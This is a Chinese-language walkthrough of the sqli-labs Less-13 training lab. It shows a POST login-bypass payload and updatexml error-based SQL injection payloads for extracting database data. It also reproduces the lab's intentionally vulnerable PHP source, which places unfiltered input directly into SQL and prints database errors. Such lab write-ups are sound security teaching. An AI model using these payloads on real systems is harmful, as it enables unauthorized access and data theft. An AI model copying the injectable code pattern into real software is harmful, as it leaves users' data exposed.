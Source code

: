 # Less-13 **POST Double Injection- String- with twist**
TAG：POST注入、字符串注入、万能密码、双查询注入、报错注入  
## 漏洞利用
输入测试代码:```admin' or 1=1#```获得报错信息  
![less13_1](images\less13_1.png)  
根据报错信息重新构造万能密码  
payload:```admin') or 1=1#```  
![less13_2](images\less13_2.png)  
但是现在没有回显点的，考虑进行报错注入  
可以构造报错注入的payload  

获取数据库名:```1') or updatexml(1,concat(0x7e,(select(database())),0x7e),1)#```
![less13_3](images\less13_3.png)  

成功的通过报错爆出了数据库名  
可以通过修改payload来获取我们想要的信息  
Payload:```1') or updatexml(1,concat(0x7e,(select(payload)),0x7e),1)#```

## 源码分析  
### less13源码： 
```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
	<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
	<title>Less-13- Double Injection- String- with twist</title>
</head>

<body bgcolor="#000000">
<div style=" margin-top:20px;color:#FFF; font-size:24px; text-align:center"> Welcome&nbsp;&nbsp;<font color="#FF0000"> Dhakkan </font><br></div>

<div  align="center" style="margin:40px 0px 0px 520px;border:20px; background-color:#0CF; text-align:center; width:400px; height:150px;">

<div style="padding-top:10px; font-size:15px;">
 

<!--Form to post the data for sql injections Error based SQL Injection-->
<form action="" name="form1" method="post">
	<div style="margin-top:15px; height:30px;">Username : &nbsp;&nbsp;&nbsp;
	    <input type="text"  name="uname" value=""/>
	</div>  
	<div> Password  : &nbsp;&nbsp;&nbsp;
		<input type="text" name="passwd" value=""/>
	</div></br>
	<div style=" margin-top:9px;margin-left:90px;">
		<input type="submit" name="submit" value="Submit" />
	</div>
</form>

</div></div>

<div style=" margin-top:10px;color:#FFF; font-size:23px; text-align:center">
<font size="6" color="#FFFF00">

<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);

// take the variables
if(isset($_POST['uname']) && isset($_POST['passwd']))
{
	$uname=$_POST['uname'];
	$passwd=$_POST['passwd'];

	//logging the connection parameters to a file for analysis.
	$fp=fopen('result.txt','a');
	fwrite($fp,'User Name:'.$uname."\n");
	fwrite($fp,'Password:'.$passwd."\n");
	fclose($fp);


	// connectivity 
	@$sql="SELECT username, password FROM users WHERE username=('$uname') and password=('$passwd') LIMIT 0,1";
	$result=mysql_query($sql);
	$row = mysql_fetch_array($result);

	if($row)
	{
  		//echo '<font color= "#0000ff">';	
  		
  		echo "<br>";
		echo '<font color= "#FFFF00" font size = 4>';
		//echo " You Have successfully logged in " ;
		echo '<font size="3" color="#0000ff">';	
		echo "<br>";
		//echo 'Your Login name:'. $row['username'];
		//echo "<br>";
		//echo 'Your Password:' .$row['password'];
		//echo "<br>";
		echo "</font>";
		echo "<br>";
		echo "<br>";
		echo '<img src="../images/flag.jpg"   />';	
		
  		echo "</font>";
  	}
	else  
	{
		echo '<font color= "#0000ff" font size="3">';
		//echo "Try again looser";
		print_r(mysql_error());
		echo "</br>";
		echo "</br>";
		echo "</br>";
		echo '<img src="../images/slap.jpg"   />';	
		echo "</font>";  
	}
}

?>


</font>
</div>
</body>
</html>
```

   

### 漏洞点分析：
```
$uname=$_POST['uname'];
$passwd=$_POST['passwd'];
```
此页面将通过post方式提交给它的uname和passwd放入变量uname,passwd中并用于页面处理  
```
@$sql="SELECT username, password FROM users WHERE username=('$uname') and password=('$passwd') LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```
页面将获取到的参数uname,passwd直接放入sql操作语句中并提交给数据库操作，并没有对参数进行检测与过滤，这将导致万能密码问题和POST注入问题  
要注意，这里的变量被括号包裹了，需要相应的修改恶意语句  

与之前的less不同，此页面并不会将数据库操作语句的返回结果显示在页面上，但是提供报错信息的显示
```
...
echo '<font color= "#0000ff" font size="3">';
print_r(mysql_error());
echo "</br>";
echo "</br>";
...
```
通过这个报错信息的显示点，可以构造一个双查询语句来实现数据库的注入  
Payload:
```1') or updatexml(1,concat(0x7e,(select(payload)),0x7e),1)#```